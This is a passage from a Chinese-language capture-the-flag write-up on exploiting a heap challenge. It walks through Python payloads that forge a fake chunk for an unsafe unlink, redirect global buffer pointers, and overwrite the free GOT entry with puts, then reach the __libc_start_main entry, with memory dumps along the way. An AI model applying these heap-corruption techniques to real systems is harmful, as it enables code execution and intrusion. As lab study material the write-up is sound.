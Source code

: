接著來看看 payload：

```python
fake_fd = 0x6020a8 - 0x18
fake_bk = 0x6020a8 - 0x10

payload = ""
payload += p64(0x0) # 0x603010 的 previous size 不是很重要給個 0
payload += p64(0x21) # 0x603010 的 size 
payload += p64(fake_fd) # fake 0x603010 的 fd
payload += p64(fake_bk) # fake 0x603010 的 bk

# 這裡已經到了 0x603040 也就是 big secret 的 chunk
payload += p64(0x20) # fake previous size 讓她往回找 previous chunk 可以找到 0x603010
payload += p64(0xfb0) # big secret chunk size 
```

renew 完 huge 送了以上 payload 來偽造 chunk 之後，call `wipe(big)`，他就會進行 unsafe unlink `0x603010`。

因為新版的 unlink 會檢查 FD->bk 會不會 == p、BK->fd 會不會 == p，所以 unlink 不能直接讓 GOT entry 接 shellcode。

unlink 完後，global buffer 的 layout 如下：

```assembly
0x602090:       0x00007ff7c9bae620      0x0000000000000000
0x6020a0:       0x00000000013b0040      0x0000000000602090
0x6020b0:       0x00000000013b0010      0x0000000100000000
0x6020c0:       0x0000000000000001
```

此時 huge_buf 會指到 global buffer 上，接下來再一次 renew huge 來讓這些 secret buffer 指到任意的 address。

payload：

```python
free_got = 0x602018
payload = ""
payload += 'A' * 0x10 + p64(0x0) # padding
payload += p64(0x6020b0) # 讓 huge_buf 指到 small_buf 的 address
payload += p64(free_got) # 讓 small_buf 指到 GOT of free 來進行 GOT hijacking
```

接著 renew(small) 我們就可以把 `free` hijack 成 `puts`

```python
puts_got_value = 0x4006c6
payload = p64(puts_got_value) * 2
```

這裡 * 2 的目的是讓後面的 `puts` 不要壞掉

這時候我們再一次 renew(huge)，這時候就是 overwrite small_buf，我們讓他指到 `__libc_start_main` 的 GOT entry

```python
libc_start_main_got = 0x602048
payload = p64(libc_start_main_got) + p32(1) * 3
```

這裡的 `p32(1)` 是把 small big huge 的 inuse 設成 1。
